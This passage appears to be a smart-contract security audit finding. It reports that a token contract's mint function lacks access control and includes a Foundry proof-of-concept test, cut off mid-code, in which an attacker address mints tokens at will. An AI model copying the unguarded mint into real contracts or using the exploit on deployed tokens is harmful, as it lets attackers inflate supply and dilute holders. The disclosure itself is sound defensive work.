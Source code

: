## Vulnerability Details

The vulnerability exists in the ERC20ToGenerateNftFraccion contract where the mint function lacks access control:

```javascript
  function mint(address _to, uint256 _amount) public {
        _mint(_to, _amount);
    }
```

The mint function is declared as public without any access modifiers like onlyOwner, allowing any external account to call it and mint tokens at will.

## Impact

Critical. This vulnerability has several severe implications:

1. Any user can mint unlimited tokens to any address
2. Token supply can be manipulated at will
3. The entire NFT fractionalization system can be compromised since token amounts no longer accurately represent NFT ownership shares
4. Economic attacks possible through unlimited minting

## POC

- Copy this tests in path test/unit/ERC20ToGenerateNftFractionTest.t.sol

Two test cases demonstrate the vulnerability:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Test, console} from "forge-std/Test.sol";
import {ERC20ToGenerateNftFraccion} from "../../src/token/ERC20ToGenerateNftFraccion.sol";

contract ERC20ToGenerateNftFractionTest is Test {
    ERC20ToGenerateNftFraccion public token;
    address public constant ATTACKER = address(0x1);
    address public constant USER = address(0x2);
    uint256 public constant MINT_AMOUNT = 1000e18;

    function setUp() public {
        token = new ERC20ToGenerateNftFraccion("Test Token", "TEST");
    }

    function test_AccessControl_AnyoneCanMint() public {
        console.log("=== Demonstrating Unrestricted Minting Vulnerability ===");
        console.log("Initial attacker balance:", token.balanceOf(ATTACKER));
        console.log("Initial user balance:", token.balanceOf(USER));

        vm.startPrank(ATTACKER);
        console.log("\nAttacker address:", ATTACKER);
        console.log("Attacker attempting to mint", MINT_AMOUNT, "tokens...");

        // Attacker can mint tokens to themselves
        token.mint(ATTACKER, MINT_AMOUNT);
        console.log("Success! Attacker minted tokens to themselves");
        console.log("New attacker balance:", token.balanceOf(ATTACKER));

        // Attacker can mint tokens to other addresses
        console.log("\nAttacker now minting tokens to user address:", USER);
        token.mint(USER, MINT_AMOUNT);
        console.log("Success! Attacker minted tokens to another user");
```